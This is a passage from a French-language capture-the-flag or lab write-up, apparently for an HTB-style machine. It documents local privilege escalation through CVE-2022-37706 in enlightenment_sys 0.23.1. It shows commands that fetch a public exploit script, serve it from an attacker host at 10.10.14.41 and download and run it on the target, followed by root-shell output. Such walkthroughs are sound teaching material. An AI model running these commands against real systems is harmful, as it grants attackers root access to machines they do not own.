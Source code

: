                 <span class="font-semibold text-red-600 dark:text-red-400">Version installée :</span> 0.23.1
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 7.8 (High)
            </div>
        </div>
        <p class="mt-4 p-3 bg-red-100 dark:bg-red-800/30 rounded">
            <strong>Description :</strong> Le binaire <code>enlightenment_sys</code> gère incorrectement les chemins commençant par <code>/dev/..</code>, permettant une traversée de répertoires et l'exécution de commandes avec les privilèges root.
        </p>
    </div>
</div>

### Exploitation

**Préparation de l'exploit sur la machine attaquante :**

```bash
# Télécharger l'exploit depuis GitHub
wget https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/raw/main/exploit.sh

# Héberger un serveur HTTP
python3 -m http.server 8000
```

**Téléchargement et exécution sur la cible :**

```bash
# Télécharger l'exploit
wget http://10.10.14.41:8000/exploit.sh
chmod +x exploit.sh

# Lancer l'exploitation
./exploit.sh
```

### Résultat de l'exploitation

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-600 dark:text-green-400">
        [+] Vulnerable SUID binary found!<br>
        [+] Trying to pop a root shell!<br>
        [+] Enjoy the root shell :)
    </div>
</div>

**Vérification des privilèges :**

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
    </div>
</div>
